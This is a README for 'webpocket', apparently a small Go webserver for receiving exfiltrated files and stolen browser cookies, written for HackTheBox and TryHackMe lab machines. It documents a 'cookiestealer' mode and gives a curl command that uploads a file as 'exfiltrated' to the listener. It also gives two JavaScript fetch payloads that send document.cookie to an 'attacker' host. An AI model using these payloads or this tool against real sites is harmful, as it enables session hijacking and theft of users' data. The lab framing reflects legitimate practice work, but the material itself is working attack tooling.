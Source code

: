 # webpocket

Your online five finger discount!

A simple webserver you can send files or cookies to. I wrote it specifically for machines on HTB, THM etc.

## Usage:

### CLI arguments

```plaintext=
-h          help
-p <port>   specify the port, which the server should run on. Default: 6969
-s <size>   max file size. Default: ~33MB
-k          killswitch, server shuts down after receiving a file

-c          activate cookiestealer
-cl         Output file for cookielog. -c needs to be provided. Default: cookielog.txt
```

### Send data

**POST**

```bash=
curl -X POST --form "exfiltrated=@/path/to/file" http://<server-ip>:6969
```

**Cookies via POST**

```js=
fetch('http://attacker/c', {method: "POST", mode: "no-cors", body: document.cookie})
```

**Cookies via GET**

```js=
fetch('http://attacker/c?'+document.cookie.trim().replace("; ", "&"), {method: "GET", mode: "no-cors"})
```

## Building

```bash=
git clone https://github.com/hobirst/webpocket
cd webpocket
go build .
mv webpocket <somewhere/in/$PATH>
```

## Contributions

Yes please
